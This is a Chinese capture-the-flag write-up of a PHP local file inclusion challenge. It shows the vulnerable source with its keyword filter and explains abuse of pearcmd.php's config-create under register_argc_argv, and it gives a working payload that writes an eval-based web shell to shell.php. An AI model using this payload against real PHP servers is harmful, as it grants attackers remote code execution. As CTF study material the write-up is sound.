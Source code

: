 ## WEEK3

### Include 🍐（pearcmd.php本地文件包含）

源码

```php
 <?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?> 
```

分析一下，有文件包含漏洞，将变量和`.php`拼接，但是过滤了几个重要的伪协议。按照它的提示到`./phpinfo.php`看看，发现有假flag，不过给了hint让我们看看register_argc_argv（不了解的可以百度）。我们再在`./phpinfo.php`搜一下，发现选项是on
 ![在这里插入图片描述](assets/4011d912ab244f7c933c7574fc3b2cf9.png)那么存在漏洞，具体方法为利用pearcmd.php本地文件包含

首先要知道在pearcmd.php中`&`符无发分割参数，真正能分割参数的是`+`；然后就是利用的命令为config-create，其包括两个参数，一个是绝对路径，还有保存配置文件的文件名；并且第一个参数会被写进到文件里，我们借此实现命令执行
 payload

```
?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>+shell.php
```

注：由于源码会拼接`.php`，所以为pearcmd